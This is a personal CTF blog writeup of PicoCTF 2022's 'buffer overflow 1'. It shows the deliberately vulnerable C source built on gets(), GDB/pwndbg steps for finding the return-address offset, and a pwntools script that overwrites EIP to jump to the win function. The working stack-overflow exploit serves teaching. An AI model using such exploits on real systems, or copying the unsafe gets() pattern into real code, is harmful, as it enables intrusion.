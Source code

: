 ```yaml
---

title: "Buffer Overflow 1"
date: 2023-08-22T19:48:58+08:00
author: John Wu
summary: "PicoCTF 2022's buffer overflow 1 writeup"
tags: ["CTFs","guides","tech"]
ShowToc: true
draft: false

---
```


## Given Stuff

Problem:

Control the return address. Additional details will be available after launching your challenge instance.

Hints:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.


```c
// vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

`vuln`

## Tools
- GDB/pwndbg
- python3
- pwntools
- System: Linux 6.4.11-arch2-1 #1 SMP PREEMPT_DYNAMIC x86_64 GNU/Linux

## Analysis
Make the `vuln` file executable first: `chmod +x vuln`.
Open the project in GDB for analyzing: `gdb vuln`.
From the source code, we see that there is a function `win` that is never called by `main` or `vuln`.
However, because it is still in the code and for the sake of the challenge, the program will still load `win` onto the stack.
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

So, find the location of `win`.

```
pwndbg> info functions win
All functions matching regular expression "win":

Non-debugging symbols:
0x080491f6  win
pwndbg>
```

So `win` is located at 0x080491f6, and since this is a buffer overflow problem, we just have to set $eip to 0x080491f6.

The vulnerability in the code is in the function `vuln`, because of the use of `gets()`.
So lets find out the buffer size in order to overflow the stack.

```
pwndbg> cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
pwndbg> r <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
Starting program: /home/hyperboly/Downloads/bufover1/vuln <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────
*EAX  0x41
*EBX  0x6161616a ('jaaa')
 ECX  0x0
 EDX  0x0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049350 (__libc_csu_init) ◂— endbr32 
*EBP  0x6161616b ('kaaa')
*ESP  0xffffd4e0 ◂— 0x6161616d ('maaa')
*EIP  0x6161616c ('laaa')
─────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────────────────────────────────────────────
Invalid address 0x6161616c

pwndbg>
```

`cyclic` from pwntools is available in pwndbg.
It basically creates a recognizable pattern that we can use to find where in the stack a 4 byte pattern exists.

[more resources](https://en.wikipedia.org/wiki/De_Bruijn_sequence), [and more](https://ir0nstone.gitbook.io/notes/types/stack/de-bruijn-sequences)

`r <<< <de-bruijn-sequences>` just means `run` the program, and input the de-bruijn-sequence.
The register $eip is now laaa, so we just have to find the offset of "laaa" to find how many bytes we need to overflow the eip.

```
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
pwndbg>
```

The pattern is at offset 44, so we can just append where `win` is in memory after 44 bytes which we know is at 0x080491f6.
So to put that into a python script with pwntools:
```python
# solve.py
from pwn import *

payload = b"A" * 44 + p32(0x80491f6)
target = remote('saturn.picoctf.net', 61303)

log.info(target.recvline())
target.sendline(payload)
log.info(target.recvall())

target.close()
```

Note that we can't send the raw 0x80491f6 because it's not in little endian, so we have to use the `p32()` function [docs](https://docs.pwntools.com/en/stable/util/packing.html)
We also can't send in the raw "A" because thats also not a byte, so we have to prepend `b""` to it, which in python means "turn it into bytes."

We can check locally by sending this into GDB:

```sh
pwndbg> r <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")
Starting program: /home/hyperboly/Downloads/bufover1/vuln <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{flag}

Program received signal SIGSEGV, Segmentation fault.
```
